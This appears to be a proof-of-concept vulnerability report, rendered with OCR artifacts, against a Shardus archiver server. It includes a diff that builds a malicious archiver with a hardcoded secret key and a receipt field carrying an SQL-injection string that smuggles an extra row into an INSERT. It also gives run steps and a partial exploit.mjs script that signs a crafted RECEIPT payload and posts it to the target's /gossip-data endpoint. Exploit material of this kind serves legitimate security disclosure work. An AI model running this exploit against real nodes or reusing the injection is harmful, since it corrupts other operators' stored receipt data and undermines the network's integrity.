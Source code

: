 * "ARCHIVER\_SECRET\_KEY": "5a95cd34671e7ecfb5e440e18be5131820ef3dc807e5cbccabccf19b09a8f0c2d75125187149cfb7b4b381cf891aceb27f661e084246a9415a29134ea5ea5f2d", "archivers": \[ { "ip": "127.0.0.1", @@ -56,6 +56,6 @@ "publicKey": "aec5d2b663869d9c22ba99d8de76f3bff0f54fa5e39d2899ec1f3f4543422ec7" } ],
* "ARCHIVER\_MODE": "release",
* "ARCHIVER\_MODE": "debug", "DevPublicKey": "" -} \ No newline at end of file +} diff --git a/src/API.ts b/src/API.ts index 73f5da7..c63ac3e 100644 --- a/src/API.ts +++ b/src/API.ts @@ -551,7 +551,8 @@ export function registerRoutes(server: FastifyInstance\<Server, IncomingMessage, reply.send({ success: false, error: result.error }) return }
* const { count, start, end, startCycle, endCycle, type, page, txId, txIdList } = \_request.body
* let { count, start, end, startCycle, endCycle, type, page, txId, txIdList } = \_request.body
* txId = "$ORIGINAL\_TXID" let receipts: (ReceiptDB.Receipt | ReceiptDB.ReceiptCount)\[] | number = \[] if (count) { if (count <= 0 || Number.isNaN(count)) { @@ -647,6 +648,9 @@ export function registerRoutes(server: FastifyInstance\<Server, IncomingMessage, receipts = await ReceiptDB.queryReceiptsBetweenCycles(skip, limit, from, to) } }
* receipts\[0].receiptId="92092c816f47ed0b8d2ee4700557f1b2a61710430108b2aa59f40b08a527e5fg"
* delete receipts\[0].appReceiptData
* receipts\[0]\["appReceiptData, applyTimestamp, beforeStates, cycle, executionShardKey, globalModification, receiptId, signedReceipt, timestamp, tx) VALUES (?, ?, ?, ?, ?, ?, ?, ?, ?, ?, ?),('','',2,'',18,'',1,'$ORIGINAL\_TXID','','','');"] = "hii" const res = Crypto.sign({ receipts, }) diff --git a/src/Config.ts b/src/Config.ts index 49bb21a..69cda2a 100644 --- a/src/Config.ts +++ b/src/Config.ts @@ -127,7 +127,7 @@ let config: Config = { save: true, interval: 1, },
* ARCHIVER\_MODE: 'release', // 'debug'/'release'
* ARCHIVER\_MODE: 'debug', // 'debug'/'release' DevPublicKey: '', dataLogWrite: true, dataLogWriter: { diff --git a/src/dbstore/receipts.ts b/src/dbstore/receipts.ts index 65591ff..023d3e4 100644 --- a/src/dbstore/receipts.ts +++ b/src/dbstore/receipts.ts @@ -40,6 +40,7 @@ export interface ArchiverReceipt { appReceiptData: object & { accountId?: string; data: object } executionShardKey: string globalModification: boolean
* "appReceiptData, applyTimestamp, beforeStates, cycle, executionShardKey, globalModification, receiptId, signedReceipt, timestamp, tx) VALUES (?, ?, ?, ?, ?, ?, ?, ?, ?, ?, ?),('','',2,'',18,'',1,'$ORIGINAL\_TXID','','','');":string }

export type AppliedVote = {

\`\`\` 3. Start the malicious archiver and provide ARCHIVER\_INFO=ip:port:public\_key, so the malicious archiver can connect to the main archiver. 4. Run the exploit command \`node exploit.mjs\` \`\`\` import axios from 'axios'; import \* as core from '@shardus/crypto-utils' import { Utils as StringUtils } from '@shardus/types'

const TARGET\_URL='http://127.0.0.1:4000' const PRIVATE\_KEY='5a95cd34671e7ecfb5e440e18be5131820ef3dc807e5cbccabccf19b09a8f0c2d75125187149cfb7b4b381cf891aceb27f661e084246a9415a29134ea5ea5f2d' const PUBLIC\_KEY='d75125187149cfb7b4b381cf891aceb27f661e084246a9415a29134ea5ea5f2d'

export function sign(obj) { const objCopy = StringUtils.safeJsonParse(core.stringify(obj)) core.signObj(objCopy, PRIVATE\_KEY, PUBLIC\_KEY) return objCopy }

async function main(){ console.log('exploiting archiver-server')

```
    core.init(&#x27;69fa4195670576c0160d660c3be36556ff8d504725be8a59b5a96509e0c994bc&#x27;)
    let payload &#x3D; {
            &#x27;dataType&#x27;: &#x27;RECEIPT&#x27;,
            &#x27;data&#x27;: [{&#x27;txId&#x27;: &#x27;92092c816f47ed0b8d2ee4700557f1b2a61710430108b2aa59f40b08a527e5fg&#x27;, &#x27;timestamp&#x27;: $TIMESTAMP}]
    }
    payload &#x3D; sign(payload)
    const r &#x3D; await axios.post(TARGET_URL + &#x27;/gossip-data&#x27;, payload)
    console.log(&#x27;success&#x27;, r.data)
```
